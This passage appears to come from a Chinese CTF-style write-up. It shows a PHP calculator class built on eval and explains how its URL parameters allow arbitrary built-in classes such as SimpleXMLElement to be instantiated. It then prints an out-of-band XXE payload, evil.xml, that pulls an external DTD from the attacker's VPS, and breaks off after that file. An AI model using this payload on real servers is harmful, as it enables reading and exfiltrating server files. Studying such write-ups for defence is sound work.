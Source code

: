 ```php
    <?php 
    class calc{
        function __construct__(){
            calc();
        }
    
        function calc($args1,$method,$args2){
            $args1=intval($args1);
            $args2=intval($args2);
            switch ($method) {
                case 'a':
                    $method="+";
                    break;
    
                case 'b':
                    $method="-";
                    break;
    
                case 'c':
                    $method="*";
                    break;
    
                case 'd':
                    $method="/";
                    break;
    
                default:
                    die("invalid input");
            }
            $Expression=$args1.$method.$args2;
            eval("\$r=$Expression;");
            die("Calculation results:".$r);
        }
    }
    ?>
```

我们点击calc按钮，计算2+2=4，我们观察url处的参数，再结合`calc`计算器类的代码可知module为调用的类，args为类的构造方法的参数：

所以我们可以通过这种形式调用PHP中的内置类。这里我们通过调用 SimpleXMLElement 这个内置类来构造 XXE。

首先，我们在vps（47.xxx.xxx.72）上构造如下evil.xml、send.xml和send.php这三个文件。

evil.xml

```xml
    <?xml version="1.0"?>
    <!DOCTYPE ANY[
    <!ENTITY % remote SYSTEM "http://47.xxx.xxx.72/send.xml">
    %remote;
    %all;
    %send;
    ]>
```

